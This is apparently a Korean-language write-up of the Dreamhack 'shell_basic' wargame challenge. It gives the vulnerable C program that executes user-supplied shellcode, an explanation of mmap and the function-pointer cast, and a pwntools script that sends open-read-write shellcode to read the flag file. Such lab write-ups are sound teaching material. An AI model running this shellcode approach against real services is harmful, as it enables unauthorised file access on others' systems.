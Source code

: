 # [Shell_basic](https://dreamhack.io/wargame/challenges/410/) 

 문제 파일의 코드는 다음과 같다. 

```C
// Compile: gcc -o shell_basic shell_basic.c -lseccomp
// apt install seccomp libseccomp-dev

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

## Exploit strategy

처음 문제를 보았을 때는 mmap이라는 생소한 함수가 있어서 굉장히 당황스러웠다.

공부를 해서 찾아보니 문제에 적힌 코드 
char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);의 의미는 offset(마지막 argument 0)에서 시작해서 0x1000바이트만큼을 start주소(첫번째 argument NULL)로 맵핑한다는 의미다. PROT인자는 메모리 보호모드의 종류이다. 여기서 fd값은 -1이다. fd 값을 -1로 하여 mmap함수를 사용하는 것은 메모리를 할당하는 기술 중의 하나라고 한다. 

유심히 봐야할 코드는 

read(0, shellcode, 0x1000);

sc = (void *)shellcode; 이다.

표준입력을 통해 shellcode의 값을 입력받고 

이 값을 함수포인터에 type casting을 하여 대입하는 것이다. 
그렇다면 함수포인터에는 shellcode의 시작주소가 담기게 될 것이기때문에 sc를 호출하는 순간 셸코드를 실행시킬 수 있는 것이다.

이 문제를 풀기위해서는 문제에서 제시한 플래그 파일을 읽어서 플래그를 획득(출력)해야한다. 
즉 우리는 orw shellcode를 삽입한 exploit script를 작성하면 된다.

## Exploit script 

다음은 해당 문제에 대한 exploit script로, 파이썬 모듈 중 pwntools를 사용하여 작성하였다. 

```python
# importing pwntools
from pwn import* 

# 원격서버를 대상으로 실제로 공격하므로 remote함수를 사용한다. 인자는 각각 호스트와 포트넘버이다.
p = remote('host1.dreamhack.games',10732) 

#공격 대상 아키텍쳐는 x86-64
context.arch = 'amd64' 

#flag 위치와 이름
path = "/home/shell_basic/flag_name_is_loooooong"

#셸코드 선언
code = ''

#shellcraft를 이용하여 open system call의 셸코드를 사용.
code += shellcraft.open(path,0 ,0)

#shellcraft를 이용하여 read system call의 셸코드를 사용. 인자는 fd,buffer,count 순이다. 
#fd 인자로 rax를 쓰는 이유는 open syscall의 반환 값이 rax에 저장되기 때문이다.
#주의해야할 점은 buffer 인자로 (rsp-count)가 아니라 rsp 값을 대입해야한다.
code += shellcraft.read('rax','rsp',0x1000)

#shellcraft를 이용하여 write system call의 셸코드를 사용. 인자는 fd,buffer,count 순이다. 

code += shellcraft.write(1,'rsp',0x1000)

#출력데이터 받아서 출력.
print(p.recv())

#작성한 셸코드를 기계어로 변환 후 전송
p.send(asm(code))

#플래그 형식은 DH{...}이므로 출력데이터를 '}'가 출력될 때까지 받아서 출력. 
print(p.recvuntil('}'))
```
